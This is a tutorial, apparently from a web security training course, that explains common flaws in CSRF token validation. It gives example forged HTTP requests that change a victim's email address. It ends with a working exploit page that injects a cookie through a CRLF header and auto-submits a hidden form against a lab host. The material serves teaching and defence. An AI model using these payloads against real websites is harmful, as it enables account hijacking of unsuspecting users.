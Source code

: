 ## Common flaws in CSRF token validation

CSRF vulnerabilities typically arise due to flawed validation of CSRF tokens. In this section, we'll cover some of the most common issues that enable attackers to bypass these defenses.

### Validation of CSRF token depends on request method

Some applications correctly validate the token when the request uses the POST method but skip the validation when the GET method is used.

In this situation, the attacker can switch to the GET method to bypass the validation and deliver a CSRF Attack:

```
GET /email/change?email=pwned@evil-user.net 
HTTP/1.1 Host: vulnerable-website.com 
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
```



### Validation of CSRF token depends on token being present

Some applications correctly validate the token when it is present but skip the validation if the token is omitted.

In this situation, the attacker can remove the entire parameter containing the token (not just its value) to bypass the validation and deliver a CSRF attack:

```
POST /email/change HTTP/1.1 
Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 25 
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm 

email=pwned@evil-user.net
```

### CSRF token is not tied to the user session

Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.

In this situation, the attacker can log in to the application using their own account, obtain a valid token, and then feed that token to the victim user in their CSRF attack.


### CSRF token is tied to a non-session cookie

In a variation on the preceding vulnerability, some applications do tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions. This can easily occur when an application employs two different frameworks, one for session handling and one for CSRF protection, which are not integrated together:

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 68 
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com`
```

This situation is harder to exploit but is still vulnerable. If the website contains any behavior that allows an attacker to set a cookie in a victim's browser, then an attack is possible. The attacker can log in to the application using their own account, obtain a valid token and associated cookie, leverage the cookie-setting behavior to place their cookie into the victim's browser, and feed their token to the victim in their CSRF attack.

```
<body> 
	<form action="https://0af400ef036b4dfe8038e5b3006b00e5.web-security-academy.net/my-account/change-email" method="POST"> 
		<input type="hidden" name="email" value="pwned1@evil-user.net" />
		<input type="hidden" name="csrf" value="bzyO82Knj56feYlDk5JBTHLJo4q7Uqlo" />
	</form> 
	<img src="https://0af400ef036b4dfe8038e5b3006b00e5.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=oK6aIHKKYbwfQJMj8hJpQinbGUmu8fHg%3b%20SameSite=None" onerror=document.forms[0].submit()>
</body> 
```